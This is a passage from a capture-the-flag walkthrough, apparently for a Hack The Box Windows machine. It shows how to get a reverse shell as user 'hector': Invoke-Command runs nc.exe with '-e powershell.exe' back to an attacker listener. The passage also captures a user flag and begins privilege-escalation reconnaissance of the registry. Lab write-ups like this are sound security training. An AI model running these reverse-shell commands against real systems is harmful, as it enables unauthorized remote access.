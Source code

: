 Then, achieve a reverse shell as `hector`.<br>
Launch a netcat listener and run the following PowerShell command on the target machine.
```shell
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...

```
```shell
PS C:\> Invoke-Command -ComputerName LOCALHOST -ScriptBlock { C:\inetpub\wwwroot\nc.exe 10.10.14.42 4444 -e powershell.exe } -Credential $credential
```

Go back to the netcat listener window.<br>
We can see that we got a shell as `control\hector`.
```shell
root@kali:~# nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.42] from (UNKNOWN) [10.10.10.167] 51401
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Hector\Documents> whoami
whoami
control\hector
```

`user.txt` is in the folder `C:\Users\Hector\Desktop\`.
```shell
PS C:\Users\Hector\Documents> cat C:\users\hector\Desktop\user.txt
cat C:\users\hector\Desktop\user.txt
d8782dd01fb15b72c4b5ba77ef2d472b
```


## 3. Getting Root

Taking a look at the PowerShell command history.<br>
We can find only 2 commands.
```shell
PS C:\> gc (get-PSReadlineOption).HistorySavePath
gc (get-PSReadlineOption).HistorySavePath
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

The first command shows the entries of `HKLM:\SYSTEM\CurrentControlset`.<br>
It contains the following 6 keys.
1. Control
2. Enum
3. Hardware profiles
4. Policies
5. Services
6. Software
```shell
PS C:\Users\Hector\Documents> get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list


Property      : {BootDriverFlags, CurrentUser, EarlyStartServices, PreshutdownOrder...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Control
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 121
```